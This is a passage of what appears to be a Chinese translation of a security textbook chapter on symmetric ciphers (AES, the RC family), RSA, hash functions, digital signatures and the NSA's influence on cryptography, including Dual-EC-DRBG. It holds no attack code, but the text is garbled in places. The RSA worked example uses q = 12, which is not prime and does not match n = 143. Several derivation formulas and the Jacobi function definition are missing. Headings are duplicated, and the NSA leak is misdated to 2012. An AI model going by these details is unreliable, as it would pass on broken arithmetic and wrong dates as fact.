长期安全性问题更难回答，但对 AES 比对 DES 更乐观。请记住，密钥每增加一位，暴力破解的工作量就会翻倍。AES 算法定义支持 128 位、192 位或 256 位密钥。因此，相对于 56 位 DES 密钥，128 位 AES 密钥带来 72 次翻倍，意味着工作量是 `2⁷²`（约 `4*10²¹`）倍难度。192 位和 256 位密钥长度将这一已极巨大的工作量进一步延伸。但由于 AES 具有明显的底层结构，甚至可以用相同的通用方法解决略有不同的底层问题，以适应更大尺寸的密钥。因此，与 DES 不同，AES 允许用户在技术威胁到当前密钥尺寸时随时转向更长密钥，所以 Diffie 和 Hellman 1977 年的猜想在可预见的未来不太可能适用于 AES。此外，这种扩展的密钥长度在巧妙攻击将暴力破解工作量分割时，提供了安全余量。

尽管如此，密码分析师仍持续探究 AES。自 2001 年推出以来，虽有少量学术兴趣层面的弱点暴露，但无威胁 AES 安全者。一位研究者描述其中一种攻击：“尽管这些复杂度远快于穷举搜索，但它们完全不切实际，且似乎不对基于 AES 的系统安全性构成任何真实威胁。” [BIR10b] 该研究进展演示了一种攻击，将推导单个密钥的工作量从 `2²⁵⁶` 降至 `2⁴⁵`，*但此攻击针对的是 10 轮版 AES，而非标准的 14 轮*。这种攻击在时间上虽有显著缩减，但颇像与一只手被绑在身后的人搏斗。Andrey Bogdanov 及其同事 [BOG11] 提出了一种更公平的攻击，将推导密钥的复杂度降低四倍，即从 `2²⁵⁶` 降至 `2²⁵²`，128 位和 192 位密钥版本有类似结果。将工作量仅降低四倍几乎算不上变化。

迄今为止，没有任何攻击对 AES 的整体强度提出严重质疑。

###### RC2、RC4、RC5 和 RC6

`RC2`、`RC4`、`RC5` 和 `RC6` 密码均出自 Ronald Rivest 之手，他是 RSA 算法发明者之一及 RSA 实验室创始人。（名称中的 RC 根据来源不同，可能代表“Rivest cipher”（Rivest 密码）或“Ron's code”（Ron 的代码）。）这些密码结构各异，但都有一定的通用度，故在此简要探讨。

######## RC2

`RC2` 是一种分组密码，设计为简单快速的算法 [KNU02]。尽管 Rivest 最初意图将该算法作为专有技术，但有人于 1996 年在互联网上发布了其设计描述。

该算法最显著的特征是其较短的密钥长度：40 位。设计时，美国政府限制出口加密应用的强度（以密钥长度衡量）不得超过 40 位。（注：仅一年后 56 位 DES 密钥即在短时间内被恢复，因此任何想破解加密的组织肯定能轻松恢复 40 位密钥。）该算法最初旨在供 Lotus Notes 办公套件国际版使用；它采用足够短的密钥以满足美国对大多数国家的出口限制，从而保证 Lotus 的国际市场竞争力。

事实上，`RC2` 可支持 8 至 128 位的密钥尺寸，赋予其超越 DES 的抗穷举密钥搜索强度。其运作与 DES 足够相似，可在应用中替代 DES，轻松创建国际版。随着 2000 年出口限制放宽，对短密钥 DES 替代品的需求已降低。

######## RC2

RC2 由两种操作组成：混合和捣碎。在混合过程中，比特流会经历某种形式的置换，即通过对比特部分进行二进制（`AND`、`OR`、`NOT`）运算，实现带有并发替换的位移。在每一轮混合中，比特会从右侧开始进行一次完整的洗牌，向左移动，并循环回到右侧。共有十六轮混合。捣碎轮是纯替换操作。在混合轮 5 和 11 之后，各执行两轮捣碎。

RC2 发明于 1987 年，在密码系统发展史上算得上古老。其设计未发现严重弱点，但 40 位密钥使得暴力密钥搜索变得微不足道。

######## RC4

RC4 是一种流密码，广泛用于无线网络（WEP 和 WPA，详见第 6 章），以及 SSL（同样在第 6 章中解释）和各种产品中。在 2000 年之前，它尤为流行，因为像 RC2 一样，它采用可变长度密钥，因此可配置为使用 40 位密钥，长度足够短以通过出口限制。

RC4 本质上是一个带密钥的伪随机数生成器（PRNG）；它以不可预测的顺序生成比特流。对于加密，该比特流与明文比特进行异或（XOR）运算。

该算法巧妙地简单。它使用一个 256 元素的数组 `A`，包含 8 位字节所有 256 种可能的值。指针 `i` 和 `j` 标识数组中待交换的字节。在每一步中，`i` 增加 1，`j` 替换为 `j + A[i]`，`A[i]` 和 `A[j]` 交换，并输出字节 `A[A[i]+A[j]]`。（所有加法均按模 256 进行。）该算法效率极高，尤其适合软件实现。

在算法本身中未发现严重的密码分析弱点。然而，异或流密码的随机数序列绝不能重复。也就是说，相同的密钥绝不能用于两个不同的明文。为了说明原因，考虑使用公共密钥 `k` 加密的明文 `p[1]` 和 `p[2]`。

```
c[1] = p[1] ⊕ k
c[2] = p[2] ⊕ k
```

攻击者获取两个密文并计算

```
c[1] ⊕ c[2] = (p[1] ⊕ k) ⊕ (p[2] ⊕ k)
= p[1] ⊕ p[2] ⊕ (k ⊕ k)
= p[1] ⊕ p[2]
```

通过频率分析、可能明文或其他技术，可能从中恢复 `p[1]` 和 `p[2]`。

许多 RC4 实现恰好存在这个弱点。为初始化数组 `A`，算法按数字顺序从 1 开始填充值至 256。然后它遍历这 256 个字节，将每个字节与另一个字节交换，后者的位置部分取决于密钥中的一个字节：对于每个 `i`，

```
j := j + A[i] + key[i]
```

并交换 `A[i]` 和 `A[j]`。因此，长达 256 字节的密钥控制着随机数数组的初始化方式。

为防范相同明文攻击，密码（尤其是异或流密码）会配合初始化向量使用，也称为 `nonce`；该值的工作原理类似于我们在 DES 中描述的初始化向量。在某些 RC4 实现中，`nonce` 被追加到密钥后，从而有效地扩展并随机化了密钥。

Fluhrer 等人 [FLU01] 分析了所有可能密钥下 RC4 的输出，发现输出存在偏差，泄露了关于密钥的信息。如果 `nonce` 被追加到密钥后，有可能大幅缩小密钥的搜索空间。

RC4 广泛用于无线网络的 WEP 加密。无线接入点和远程设备无限期使用相同的密钥，直到手动重新生成密钥。Fluhrer 等人发现的弱点使得 WEP 加密可在几分钟内被破解。这一弱点促使 WPA 和 WPA2 的开发用于无线通信，后者使用强得多的 AES 加密。

2012 年 3 月，伦敦皇家霍洛威大学和伊利诺伊大学的一个研究小组 [ALF13] 披露了针对 TLS（及其前身 SSL，详见第 6 章）的新攻击，当使用 RC4 加密时，允许攻击者从 TLS 连接中恢复有限数量的明文。这些攻击源于 RC4 算法生成的密钥流中的统计缺陷，当相同明文被反复加密时，这些缺陷在 TLS 密文中变得明显。2012 年晚些时候，一名前 NSA 员工的爆料表明 NSA 和其他情报机构可能具备破解 RC4 加密的能力。因此，微软 [MIC13] 建议客户停止使用 RC4。

TLS 安全性及其前身 SSL（在 https 协议下调用的加密）也可以使用 RC4，尽管浏览器给予用户选择或禁用任何特定算法的选项。

RC4 也曾用于微软 Office 产品 Word 和 Excel 中，以加密受密码保护的文档。微软犯了一个错误，即在同一个加密密钥（密码）下加密文档的每个版本。Wu [WU05] 描述了一种类似于上述异或流攻击的攻击，给定文档的两个版本，即可轻松检索加密文档的文本。

######## RC5

RC5 是一种完全参数化的分组密码；这意味着密钥长度、分组大小和循环轮数均可变化，以调整安全性与操作及使用复杂度之间的平衡。RC5 [RIV94] 采用简单的设计，作为 AES 候选算法 RC6 的模型。

RC5 中的一个数据分组被分成两半，左半部分被修改，两半交换，新的左半部分（即旧的右半部分）以相同方式被修改，然后两半再次交换。该序列构成算法的一整轮。每半轮的修改涉及异或（XOR）、循环移位和密钥一部分的加法。对于加密算法来说，一个不同寻常的转折是：移位的比特数取决于输入数据：左半部分按右半部分数值的比特数进行移位。

RC5 未发现显著弱点。轮数较少（12 轮）的加密被发现易受差分密码分析，但轮数可任意设定。由于每轮操作少且简单，实现速度与轮数呈线性关系，将轮数提高到 12 以上不会显著降低加密速度。

######## RC6

为参加 AES 竞赛，RSA 实验室对 RC5 进行了微小修改，称之为 RC6。RC6 密码是 RSA Security 的专有产品，但似乎不再受支持。

存在成千上万种其他对称加密算法。正如本章前面所述，密码学是一个极其复杂的学科，绝非轻率可为。尽管朋友的朋友可能有背景设计出可靠的算法，但要警惕业余爱好者从事密码学（脑外科手术亦然）。你应谨慎选择密码学技术，并务必将技术强度的评估与你想要保护的数据价值相匹配。经得起协同审视的知名算法是你最好的工具。

我们现在转向非对称密码学中更复杂的算法。

### 12.3 使用 RSA 进行非对称加密

正如我们在第 2 章中所述，非对称密码学（也称为公钥密码学）使用两个不同但相关的密钥。一个密钥加密数据，其匹配的对应密钥解密。在数学上，从一个密钥推导出另一个密钥是不可行的，因此只要不泄露另一个密钥（通常称为私钥），就可以安全地公开其中一个密钥（通常称为公钥）。

##### RSA 算法

RSA 算法是一种基于底层难题的密码体制。该算法由 Rivest、Shamir 和 Adelman 于 1978 年提出 [RIV78]。RSA 经受了广泛的密码分析。迄今为止尚未发现严重缺陷——这虽不能保证其绝对安全，但表明对其使用有很高的信心。

##### RSA 算法

本节分两部分介绍 RSA 算法。首先，我们概述 RSA，让您了解其工作原理。然后，我们将深入分析所涉及的详细步骤。

###### RSA 算法简介

RSA 算法要求找到乘积为特定值的项。RSA 加密算法结合了数论的成果，以及分解目标数质因数的困难性。RSA 算法在模 `n` 算术下运行，这使得因式分解极其困难。

加密算法基于大数分解这一底层难题，目前已知针对该问题的最快算法在时间上是指数级的。

使用两个密钥 `d` 和 `e` 分别进行解密和加密。它们实际上是可互换的。明文分组 `P` 加密为 `P^(e) mod n`。由于指数运算是在模 `n` 下进行的，因此对 `P^(e)` 进行因式分解以还原加密明文是极其困难的。然而，解密密钥 `d` 的选择非常讲究，使得 `(P^(e))^d mod n = P`。因此，知道 `d` 的合法接收者只需计算 `(P^(e))^d mod n = P` 即可恢复 `P`，而无需对 `P^(e)` 进行因式分解。

###### 加密算法详细描述

RSA 算法使用成对工作的两个密钥 `d` 和 `e`，分别用于解密和加密。明文消息 `P` 加密为密文 `C` 的过程为：

`C = P^(e) mod n`

明文恢复过程为：

`P = C^(d) mod n`

由于模算术的对称性 `C`，加密和解密是互为逆运算且可交换的。因此，

`P = C^(d) mod n = (P^(e))^d mod n = (P^(d))^e mod n`

这种关系意味着可以先应用加密变换再应用解密变换，或者先应用解密变换再应用加密变换。

###### 密钥对的推导

加密密钥由整数对 `(e, n)` 组成，解密密钥为 `(d, n)`。寻找该算法密钥的起点是选择 `n` 的值。`n` 的值应相当大，是两个素数 `p` 和 `q` 的乘积。`p` 和 `q` 本身也应很大。通常，`p` 和 `q` 各接近 100 位十进制数，因此 `n` 约为 200 位十进制数（约 512 位）长；视应用而定，768、1024 或更多位可能更合适。较大的 `n` 值能有效防止通过分解 `n` 来推断 `p` 和 `q`（但随着 `n` 值增大，加密时间也会增加）。

接下来，选择一个较大的整数 `e`，使 `e` 与 `(p - 1) * (q - 1)` 互素。（回顾：“互素”意味着 `e` 与 `(p - 1) * (q - 1)` 没有公因数。）保证 `e` 与 `(p - 1) * (q - 1)` 互素的一个简便方法是选择 `e` 为一个大于 `(p - 1)` 和 `(q - 1)` 的素数。

最后，选择 `d` 使得

`e * d = 1 mod (p - 1) * (q - 1)`

###### 示例


设 `p = 11`，`q = 12`，则 `n = p * q = 143`，且 `j(n) = (p - 1) * (q - 1) = 10 * 12 = 120`。接下来需要一个整数 `e`，且 `e` 必须与 `(p - 1) * (q - 1)` 互素。选择 `e = 11`。

11 模 120 的逆也是 11，因为 `11 * 11 = 121 = 1 mod 120`。因此加密和解密密钥相同：`e = d = 11`。（在示例中 `e = d` 不是问题，但在实际应用中，您会希望选择 `e` 不等于 `d` 的值。）

设 `P` 为待加密的“消息”。本例中使用 `P = 7`。消息加密过程如下：`7¹¹ mod 143 = 106`，即 `E(7) = 106`。（注：使用普通袖珍计算器即可轻松计算此结果。`7¹¹ = 7⁹ * 7²`。然后 `7⁹ = 40 353 607`，但我们不必处理那么大的数字。由于约简规则，`a * b mod n = (a mod n) * (b mod n) mod n`。因为最终结果将模 143 约简，我们可以约简任何项，例如 `7⁹`，即 `8 mod 143`。然后，`8 * 7² mod 143 = 392 mod 143 = 106`。）

该答案正确，因为 `D(106) = 106¹¹ mod 143 = 7`。

### RSA 算法的强度

RSA 算法的强度源于其基于有限域中高效分解数字这一问题，这是数论中一个长期悬而未决的难题。当然，该问题可以通过尝试所有可能因子的暴力技术来解决，但在大域中，即对于大值的 `n`，暴力技术是不可行的。使 RSA 加密可行的技巧取决于一种选择 `n` 的隐藏技术。

#### RSA 算法的数学基础

**欧拉函数** `φ(n)` 是小于 `n` 且与 `n` 互素的正整数的个数。若 `p` 为素数，则

`φ(p) = p - 1`

此外，若 `n = p * q`，其中 `p` 和 `q` 均为素数，则

`φ(n) = φ(p) * φ(q) = (p - 1) * (q - 1)`

欧拉和费马证明了

`x^φ(n) ≡ 1 mod n`

对于任意整数 `x`，前提是 `n` 和 `x` 互素。

假设我们用 RSA 算法加密明文消息 `P`，使 `E(P) = P^(e)`。我们需要确保能恢复消息。选择值 `e`，以便容易找到其逆 `d`。因为 `e` 和 `d` 模 `φ(n)` 互为逆元，

`e * d ≡ 1 mod φ(n)`

即

`e * d = k * φ(n) + 1 (*)`

其中 `k` 为某个整数。

根据欧拉-费马结论，假设 `P` 和 `p` 互素，

`P^(p - 1) ≡ 1 mod p`

且因为 `(p - 1)` 是 `φ(n)` 的因子，

`P^(k * φ(n)) ≡ 1 mod p`

两边乘以 `P` 得

`P^(k * φ(n) + 1) ≡ P mod p`

同理对 `q` 也成立，所以

`P^(k * φ(n) + 1) ≡ P mod q`

将这最后两个结果与 (a) 结合得到


从而

`(P^e)^d ≡ P mod n`

且 `e` 和 `d` 为逆运算。

#### 算法的使用

RSA 算法的使用者选择素数 `p` 和 `q`，由此获得值 `n = p * q`。接下来，选择 `e` 使其与 `(p - 1) * (q - 1)` 互素；`e` 通常为大于 `(p - 1)` 或 `(q - 1)` 的素数。最后，计算 `d` 为 `e` 模 `(φ(n))` 的逆元。

使用者公开 `e` 和 `n`，保密 `d`；此时可丢弃（但不得泄露）`p`、`q` 和 `φ(n)`。注意，尽管 `n` 已知为两个素数的乘积，但若它们足够大（如 100 位长），则无法从 `e` 中确定素数 `p` 和 `q` 或私钥 `d`。因此，该方案为 `d` 提供了足够的安全性。

甚至连验证 `p` 和 `q` 本身是否为素数都不切实际，因为那将需要考虑约 `10⁵⁰` 个可能的因子。Solovay 和 Strassen 提出的一种启发式算法 [SOL77] 可将素性概率确定至任意所需的置信度。

每个素数都能通过两项测试。若 `p` 为素数且 `r` 为任意小于 `p` 的数，则

`gcd(p, r) = 1`

（其中 `gcd` 为最大公约数函数）且

`J(r, p) ≡ r^((p - 1)/2) mod p`

其中 `J(r, p)` 为定义如下的 **雅可比函数**。


若疑似素数未通过任一测试，则它**绝对不是**素数。若疑似素数通过两项测试，则它为素数的可能性至少为 1/2。

RSA 算法相关的问题是寻找两个大素数 `p` 和 `q`。采用 Solovay 和 Strassen 的方法，首先猜测一个大的候选素数 `p`。然后生成一个随机数 `r` 并计算 `gcd(p,r)` 和 `J(r, p)`。如果这两项测试中的任何一项失败，则 `p` 不是素数，停止该过程。如果两项都通过，`p` 不是素数的可能性最大为 1/2。用随机选择的新值 `r` 重复该过程。如果第二个 `r` 也通过测试，非素数 `p` 能通过两次测试的可能性最大为 1/4。通常情况下，在重复该过程 `k` 次且两项测试均未失败后，`p` 不是素数的可能性最大为 1/2^(k)。

#### RSA 算法的密码分析

RSA 方法已受到计算机安全和密码分析领域专家的严格审查。已经发现了几个次要问题，但没有重大担忧；Boneh [BON99] 编录了针对 RSA 的已知攻击。他指出没有针对 RSA 本身的成功攻击，但存在几种针对 RSA 实现和使用的严重但不太可能发生的攻击。

RSA 是目前使用最广泛的公钥加密算法。现在我们转向密码学的两个应用：消息摘要和数字签名，这两者均在 第 2 章 中介绍过。在本章中，我们将更详细地探讨这些算法。

## 12.4 消息摘要

在 第 2 章 中，我们介绍了错误检测和纠错码的概念。特别是，我们描述了单向函数和加密哈希函数，它们旨在防止恶意修改数据并调整代码值以匹配修改后的数据。

### 哈希函数

正如 第 2 章 所述，哈希或消息摘要函数是检测数据块可能发生变化的方法。这些函数既能发出无意更改的信号，也能发出有意（恶意）更改的信号。

对于无意更改，信号函数可以是公开的，例如奇偶校验位或更复杂的错误检测和纠错码，如汉明码 [HAM50] 和里德-所罗门码 [REE60]。在本书中，我们更关注用于检测恶意更改并防止攻击者颠覆检测技术的方案。

### 单向哈希函数

单向哈希函数是一种具有多种用途的加密构造。它们结合公钥算法用于加密和数字签名。它们用于完整性检查。它们用于认证。它们用于通信协议。比起加密算法，单向哈希函数才是现代密码学的主力军。

单向函数防止外部人员获取现有的哈希结果并确定与该哈希结果匹配的其他数据值。因此，Hector 可能收到一条消息，内容为“我自愿将我珍贵的金海绵蛋糕食谱赠予 Hector”以及其他一些东西。Hector 当然可以将“海绵蛋糕食谱”改为“金条收藏”，但随后 Hector 就陷入困境了：他需要对消息进行其他更改，但他需要知道能产生原始哈希值的其他内容。有了单向函数，他可以猜测“食谱文件”、“太短而无法使用的绳子盒子”等等。但他必须发明每个这样的短语并对其进行测试。如果他能反向运行哈希函数并获得能产生给定哈希结果的输入列表，那会容易得多。可惜，有了单向函数，Hector 只能不断尝试，直到找到匹配项。

现代哈希函数必须满足两个标准：它们是单向的，意味着它们将输入转换为摘要，但从摘要值出发推断出可能产生该摘要的输入是不可行的。其次，它们没有明显的碰撞，意味着找到一对产生相同摘要的不同明文是不可行的。^(3)

3。注：一些作者将这个第二属性称为“无碰撞”，但这是一个误导性的术语。每个哈希函数都会有碰撞——而且有很多，因为该函数接收相对较大的输入并产生相对较小的摘要。将 512 位压缩为 128 位摘要而不产生碰撞在物理上是不可能的。关键在于碰撞是不可预测的。我们知道碰撞会发生；只是无法预测哪些对会碰撞，或者给定一个输入，无法枚举出与之碰撞的其他输入。

### 消息摘要

应用最广泛的加密哈希函数是 `MD4`、`MD5`（MD 代表 Message Digest，消息摘要）以及 `SHA` 或 `SHS`（安全哈希算法或标准）。MD4/5 算法由 Ronald Rivest 和 RSA 实验室于 1990-1992 年发明。MD5 是 MD4 的改进版本。两者都将任意大小的消息压缩为 128 位摘要。

SHA 实际上是一个不断发展的算法家族：SHA-0，即原始 SHA，基于 MD4/MD5，由 NIST 于 1993 年发布，但因未披露的“重大缺陷”很快被撤回。它被一个略微修订的版本 SHA-1 所取代。SHA-1 从长达 2⁶⁴ 位的任意输入中生成 160 位消息摘要。

Wang 等人 [WAN05] 宣布了针对 SHA-1、MD4 和 MD5 的密码分析攻击。对于 SHA-1，该攻击能在约 2⁶³ 步内找到产生相同哈希摘要的两个明文，远低于 160 位哈希函数预期的 2⁸⁰ 步，且对于资金雄厚的攻击者来说非常可行。尽管这种攻击并不意味着 SHA 无用（攻击者必须收集并分析大量密文样本），但它确实建议使用长摘要和长密钥。

#### SHA-2

2008 年，NIST 发布了新的哈希标准 FIPS 180-3 [NIS08]，该标准定义了基于 SHA 算法但产生显著更长摘要的算法，以抵消 Wang 描述的攻击。这些新算法统称为 SHA-2。

#### SHA-3

NIST 还于 2008 年启动了一项竞赛，以选出一种新的哈希算法，称为 SHA-3。2012 年，NIST 正式宣布选择 Keccak [NIS14, BER14] 作为获胜者，指定为 SHA-3；与 SHA-2 一样，它也是一个算法家族。

宣布后立即引发了一场争议，因为 NIST 试图对内部算法进行更改。担忧的基础是害怕 NSA 以某种方式削弱了内部结构，使该算法更容易被其破解。事实上，NIST 似乎出于性能原因要求进行一些微小更改，但这些更改并未削弱算法。密码学家 Bruce Schneier 在其博客 [SCH13] 中基本消除了此类担忧：

> Keccak 排列保持不变。NIST 提议的是以性能之名减少哈希函数的容量。Keccak 的一个优点是它高度可调。
>
> 我不认为 NIST 的更改是由 NSA 建议的。也不认为这些更改使算法更容易被 NSA 破解。我相信 NIST 是出于善意做出这些更改的，结果是获得了更好的安全性/性能权衡。

SHA-3 的结构不同于其前身，它使用的周期少得多，从而显著提高了性能。这些算法确实使用了显著更多的内部内存（1600 位，而 SHA-2 为 512 位），但对于大多数应用领域来说，增加的空间是可用的。

MD5 和 SHA 算法的特性见 表 12-1。


**表 12-1** 当前安全哈希标准特性

## 12.5 数字签名

我们在第 2 章中介绍了数字签名。回顾一下，数字签名就像手写签名一样，是一种将个人独有的标记与一段文本关联起来的方法。该标记应具有**不可伪造性**，意味着只有发起人能够计算签名值。但该标记应具有**可验证性**，意味着其他人应该能够检查签名是否来自声称的发起人。

计算数字签名的通用方法是使用公钥加密；签名者使用私钥计算签名值，其他人可以使用公钥来验证签名是否来自相应的私钥。

正如我们在第 2 章中指出的，数字签名必须满足两项要求，理想情况下还应满足另外两项：

*   **不可伪造性（强制）**。除签名者外，无人能在没有签名者私钥的情况下生成该签名。
*   **真实性（强制）**。接收者能够确定签名确实来自签名者。
*   **不可篡改性（期望）**。签名者、接收者或任何拦截者均无法在篡改不被察觉的情况下修改签名。
*   **不可重用性（期望）**。任何重用先前签名的尝试都将被接收者检测到。

为了支持数字签名，我们需要强健的公钥算法。本章前面描述的 RSA 算法适用于数字签名，但它并非唯一的选择。

### 椭圆曲线密码系统

椭圆曲线密码学（ECC）由 Victor Miller（IBM）和 Neil Koblitz（华盛顿大学）于 1985 年发现[MIL85, KOB87]，作为实现公钥密码学的一种替代机制。与 RSA 不同，ECC 基于有限域中的对数；ECC 的一个优势是可以用比 RSA 更短的密钥长度获得同等的安全性。

RSA 自诞生以来的一个问题是其开发者为该算法申请了专利。因此，算法的使用者可能需要支付许可费。ECC 算法的开发者将其置于公共领域，从而避免了许可和费用。（其他开发者已为结合 ECC 的技术申请了专利，因此并非所有涉及 ECC 的内容都免专利。）

椭圆曲线密码学背后的数学原理非常复杂，远超我们在此所能呈现的范围。椭圆曲线是满足诸如 `y² = x³ + a*x + b`（其中 `a` 和 `b` 为常数）等方程的点的 `(x,y)` 坐标。Nick Sullivan [SUL13] 指出，任意非垂直直线最多通过曲线上的三个点。并且，给定任意两点 `P` 和 `Q`，我们可以找到直线 `PQR` 所通过的第三点 `R`。当 `P = (x[P],y[P])` 且 `Q = (x[Q],y[Q])` 时：

```
P + Q = R
```

其中

```
s = (y[P] – y[Q]) / (x[P] – x[Q])
x[R] = s² – x[P] – x[Q]
```

以及

```
y[R] = –y[P] + s(x[P] – x[R])
```

注意 `s` 是通过 `P` 和 `Q` 的直线的斜率。因此，给定 `P` 和 `Q`，我们可以代数地找到直线 `PQR` 上的第三个点。这意味着我们也可以找到 `QRT` 上的下一点 `T`，然后是 `RTV` 上的 `V`，以此类推。还有一个公式让我们可以从单个点开始推导出第二个点：一个点可得第二点，两点可得第三点。

椭圆曲线密码系统增加了一个转折，这应当从 RSA 算法的数学原理中耳熟能详：ECC 运算在一个有限群中进行，即对某个素数 `p` 取模 `p` 的整数。因此，虽然在基本 ECC 方程中 `x` 和 `y` 值无界增长，但将算术限制在有限域内才使得密码学问题难以逆向。给定起点 `P` 和终点 `Z`，并将结果约束在有限域内，问题在于从 `P` 到 `Z` 需要多少步。更正式地说，找到使 `P^(k) = Z` 成立的值 `k`。换句话说，找到 `k`，即 `Z` 以 `P` 为底的对数。事实证明，目前已知最快的回答该问题的方法是从 `P` 开始生成所有中间点，直到获得 `Z`。

椭圆曲线密码学很少单独用于公钥加密。然而，它常被用作数字签名的组件。2005 年，美国国家安全局（NSA）发布了其保护美国政府敏感和非机密通信的战略和建议。该战略包括一套推荐的高级密码算法，称为 Suite B。Suite B 中包含的协议有：用于密钥交换和协商的椭圆曲线 Diffie-Hellman（ECDH）和椭圆曲线 Menezes-Qu-Vanstone（ECMQV）；用于数字签名的椭圆曲线数字签名算法（ECDSA）；用于对称加密的高级加密标准（AES）；以及安全哈希算法（SHA）。吸引 NSA 采用 ECC 的特点是其相对于公钥密码算法而言强大的安全性、高效性和可扩展性。

### El Gamal 和数字签名算法

另一种公钥算法由 Taher El Gamal 于 1984 年设计[ELG85, ELG86]。虽然该算法不广泛直接使用，但它在美国数字签名标准（DSS）[NIS92, NIS94]中具有重要意义。该算法依赖于在有限域上计算离散对数的困难性。因为它基于有限域中的算术运算，正如 RSA 一样，所以它与 RSA 有一些相似之处。

#### El Gamal 签名算法

在 El Gamal 算法中，要生成密钥对，首先选择一个素数 `p` 和两个整数 `a` 和 `x`，使得 `a < p` 且 `x < p`，并计算 `y = a^x mod p`。素数 `p` 的选择应使得 `(p - 1)` 有一个大的素因子 `q`。私钥是 `x`，公钥是 `y`，连同参数 `p` 和 `a`。

要对消息 `m` 签名，选择一个随机整数 `k`，`0 < k < p - 1`，该整数以前未使用过且与 `(p - 1)` 互质，并计算

```
r = a^(k) mod p
```

和

```
s = k^(–1) (m – xr) mod (p – 1)
```

其中 `k^(–1)` 是 `k` 模 `(p - 1)` 的乘法逆元，使得 `k * k^(–1) = 1 mod (p - 1)`。消息签名随后为 `r` 和 `s`。接收者可以使用公钥 `y` 计算 `y^r r^s mod p`，并确定其等价于 `a^(m) mod p`。要破解此加密并根据 `r`、`s` 和 `m` 推断 `x` 和 `k` 的值，入侵者必须找到一种计算离散对数的方法来求解 `y = a^x` 和 `r = a^k`。

#### 数字签名算法

美国数字签名算法（DSA）（也称为数字签名标准或 DSS）[NIS94]是带有一些限制的 El Gamal 算法。首先，`p` 的大小被专门固定为 `2⁵¹¹ < p < 2⁵¹²`（因此 `p` 大约有 170 位十进制数字）。其次，`(p - 1)` 的大素因子 `q` 的选择使得 `2¹⁵⁹ < q < 2¹⁶⁰`。该算法显式地使用哈希值 `H(m)`，而不是完整的消息文本 `m`。最后，`r` 和 `s` 的计算取模 `q`。一种解释是这些变化使得不想或不需要理解底层数学的人也能轻松使用该算法。然而，这些变化也通过减少攻击者的不确定性而削弱了加密的潜在强度。

#### 美国数字签名标准

##### 2012 年 NSA–密码学争议

在设计出数字签名算法 `DSA` 后，美国政府制定了一项标准，规定使用该算法生成数字签名。然而，政府的行动稍晚了一步：私营行业早已围绕基于 `RSA` 加密的数字签名方法达成共识，而银行业的标准委员会则确定了使用 `ECC` 的第三种方法。因此，`FIPS Publication 186-3`、*数字签名标准* [NIS09] 涵盖并批准了这三种方法供政府使用。新标准 186-4 版 [NIS13] 于 2013 年 7 月发布。


### NSA 的角色

正如你在本章中所见，密码学家们经常质疑政府（尤其是 `NSA`）在密码学过程中的“隐形之手”。`NSA` 在密码学方面有三重角色：

*   首先，它为美国军事和外交用途开发编码和密码。这些技术很少公开。
*   其次，`NSA` 在公众、企业以及其他政府机构的密码学事务上支持 `NIST`。这种支持包括分析并有时参与开发此类公共密码学工具和技术。
*   最后，`NSA` 执行其所谓的信号情报任务：它“为情报和反情报目的以及支持军事行动，收集、处理并传播来自外国信号的情报信息”[摘自 `NSA` 网站]。

一方面，`NSA` 希望推广并确保美国公民和企业使用安全的加密系统。然而，它不希望这些系统*过于*安全；否则，它们会增加信号情报任务的难度。人们怀疑情报任务导致 `NSA` 削弱了密码学。

这种担忧在 1970 年代 `DES` 的设计期间浮现。当时 `NSA` 对算法做了一些未加解释的微小修改，因此外界自然认为 `NSA` 为自己的目的削弱了该算法。事实上，正如后来 Biham 和 Shamir 开发差分密码分析时所揭示的（或者说，他们无意中重新发明了它，因为 `NSA` 近二十年前就已发明），`NSA` 的作用很可能是加强而非削弱该算法。

一个更明显的削弱效应发生在 1990 年代，当时 `NSA` 设法限制了大多数密码学硬件和软件的出口，仅允许使用 40 位或更短密钥的产品出口。人们可以计算暴力密钥攻击所需的工作量，并得出结论：选择如此短的密钥是为了配合信号情报任务。

由于一个名为 `Clipper` 的密码学芯片，`NSA` 动机和做法的嫌疑也变得显而易见。该芯片于 1990 年代在 `NSA` 监督下开发。在该计划中，强（即长密钥长度）密码学可在允许所谓密钥恢复的芯片上实现；这些芯片甚至可以出口。基本上，每个使用的加密密钥副本都会被存储（托管）在两个政府机构（各持半个密钥）处，政府可凭法院命令检索这些密钥。公众怀疑极高，该计划最终被取消。

### Dual-EC-DRBG

在 `NSA` 参与密码学的这一背景下，出现了一个随机数生成器的案例。随机数生成器的一个重要用途是获取加密密钥。对于 `DES` 和 `AES` 等算法，任何适当大小的比特串都可以作为密钥。对于 `RSA` 和 `ECC` 等算法，“密钥”由一组参数的值以及可能的一个或多个随机数组成（如 `RSA` 的 `p` 和 `q`）。随机数生成器并非真正随机。它们以不可预测的顺序发出一系列数字。因此，一个优秀的生成器将产生一个新密钥，即使攻击者知道前一个甚至前几千个密钥，也无法轻易推断出该新密钥。大多数生成器采用一系列复杂的算术运算作用于所谓的种子（即起始点）。

`Dual-EC-DRBG` 生成器基于椭圆曲线密码体制，这是随机数生成器的一个新颖基础。`Dual-EC` 由 `NIST`（在 `NSA` 的技术支持下）于 2006 年提议作为标准，并于 2007 年成为美国标准（*NIST Special Publication 800-90A*）。

推出后不久，密码学家们便开始质疑该系统的怪异之处。`ECC` 基础是一个异常点，因为与其他方法相比，该方法生成随机数的速度慢了两到三个数量级。然而，这种减速并非致命，因为大多数密码学应用很少生成随机数，所以速度并不重要。

然而，正如我们在本章前面所示，`ECC` 依赖于基本椭圆方程中的常数 `a` 和 `b`。当密码学家需要常数时，他们通常使用所谓的“nothing up my sleeve”数字（无私心数字），取自中立来源，如 `π` 定义中的数字。`Dual-EC` 的参数被指定为特定常数，却未对这些数字给出任何解释或理由。

两位微软研究人员于 2007 年提出了关于 `Dual-EC` 可能可预测性的担忧。他们断言，如果有人知道 `ECC` 方程两个初始点的特性，只需很少的努力，该人就能推断出生成器的内部状态，并由此推导出未来的密钥序列。研究人员小心地没有指控不当行为，而只是指出这一不良特性。因此，该生成器继续被使用。

### Dual-EC 被发现已遭破坏

2012 年，一名拥有高级安全许可的前 `NSA` 员工叛逃至俄罗斯。在离开 `NSA` 前，他下载了大量机密文件并将其传递给记者。这些文件似乎详细记录了 `NSA` 削弱流行密码学设计或实施的行为 [PER13]。下载的文件指控 `NSA` 在标准中引入弱点，使得 `NSA`（以及任何知晓这些弱点的人）能够预测输出值。

